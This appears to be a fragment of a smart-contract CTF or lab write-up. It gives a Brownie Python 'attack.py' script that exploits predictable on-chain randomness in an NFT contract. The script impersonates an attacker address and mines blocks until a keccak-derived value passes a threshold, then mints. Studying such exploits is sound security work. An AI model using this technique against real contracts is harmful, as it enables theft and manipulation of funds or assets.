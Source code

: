 ![](/assets/p-nft2.png)


# Brownie
- Here is the `attack.py` script.
```py
#!/usr/bin/python3
from brownie import interface, web3, accounts, chain
from scripts.helpful_scripts import get_account
from colorama import Fore
from eth_abi import encode
from eth_abi.packed import encode_packed


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack():
    nft = interface.INFT("0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC")

    # print(dir(nft))
    attacker = accounts.at(
        "0x0000000000000000000000000000000000001337", force=True
    )  # get_account()

    # send 1 ETH to attacker
    admin = get_account()
    admin.transfer(attacker, "1 ether").wait(1)

    # print(web3.eth.blockNumber)
    # print(attacker.address)
    # exit()
    nft_id = nft.id()
    # print(nft_id)

    for _ in range(100):
        encoded_data = encode(
            ["uint256", "address", "uint256"],
            [
                nft_id + 1,
                attacker.address,
                web3.eth.blockNumber,
            ],
        )
        u256 = web3.toInt(web3.keccak(encoded_data))

        # print(u256)
        if (u256 % 100) > 90:
            nft.mint({"from": attacker, "value": "1 ether"})
            print(u256)
            print(u256 % 100)
            break
        else:
            # make some fake tx to increase the blockNumber
            # jadu.transfer(attacker, "0.001 ether").wait(1)
            # mine next block
            chain.mine(1)
```